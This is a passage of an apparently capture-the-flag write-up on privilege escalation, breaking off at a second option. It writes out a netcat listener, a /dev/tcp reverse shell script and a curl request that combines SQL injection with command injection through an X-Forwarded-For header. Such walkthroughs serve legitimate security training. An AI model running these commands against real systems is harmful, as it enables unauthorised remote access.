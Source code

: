 ## Privlege Escalation <a href="#adc0" id="adc0"></a>

We already know the username “kitty,” so let’s go straight to the password.

**Kali**

```
nc -nvlp
```

**Victim**

```
echo 'sh -i >& /dev/tcp/$KALI/1337 0>&1' > /tmp/revshell.sh
chmod +x /tmp/revshell.sh
```

### **Option #1**

**Kali**

```
curl 'http://127.0.0.1:8081/index.php' -d "username=hacker' OR '1'='1-- -&password=epic" -H 'X-Forwarded-For: $(bash /tmp/revshell.sh)'
```

<figure><img src="../../.gitbook/assets/image (974).png" alt=""><figcaption></figcaption></figure>

### **Option #2**
